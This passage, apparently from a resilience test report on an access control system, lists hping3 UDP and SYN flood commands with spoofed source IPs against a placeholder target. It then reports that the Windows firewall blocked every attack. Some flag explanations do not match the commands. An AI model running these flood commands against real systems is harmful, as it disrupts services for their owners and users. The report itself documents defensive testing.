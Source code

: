 --count 100 - send 100 packages.

-a 1.2.3.4 is the fake (spoofed) IP address of the sender.

![image](https://github.com/user-attachments/assets/9131180b-f4c7-4652-8fa2-2e257653bcbd)

#### UDP Flood:

````
hping3 --udp -p 80 --flood <target IP address>
hping3 -2 -c 1000 --faster -p 1000 <target IP address> -V
hping3 --udp --flood -a 1.2.3.4 <<target IP address>
````

--udp - using the UDP protocol.

-- 2 - using the UDP protocol.

--flood - sending packages as fast as possible.

-p 1000 - indicates the destination port.

-d 120 is the size of the data in the UDP packet.

-a 1.2.3.4 - spoofing of the sender's IP address.

![image](https://github.com/user-attachments/assets/27f1fc4f-589f-4200-9c97-93ca4b85ce35)

#### SYN Flood:

````
hping3 --syn -p 80 --flood <target IP address>
hping3 --syn -c 1000 --faster -p 3000 <target IP address>
hping3 --syn -p 80 -a 1.2.3.4 --flood <target IP address>
````

--syn - sending TCP packets with the SYN flag.

--flood - the maximum sending speed.

-p 3000 is the destination port.

-c 10000 is the number of packets to send.

-a 1.2.3.4 - substitution of the source IP address.

![image](https://github.com/user-attachments/assets/33e9c75c-b6bb-49e1-80b4-04ca185e1601)

### Test results

In all cases, when launching attacks, it was not possible to disrupt the performance of the ACS and its components. All incoming malicious packets were successfully rejected during the network interaction stage. This is confirmed by the absence of failures in the web interface and dashboard, as well as logging logs.

The main reason for the failure of the attacks was the pre-configured security policy of the built-in Windows firewall, which blocks all incoming traffic that does not comply with the allowed rules. Similar protection can be implemented in Linux systems using iptables.
Conclusions on sustainability
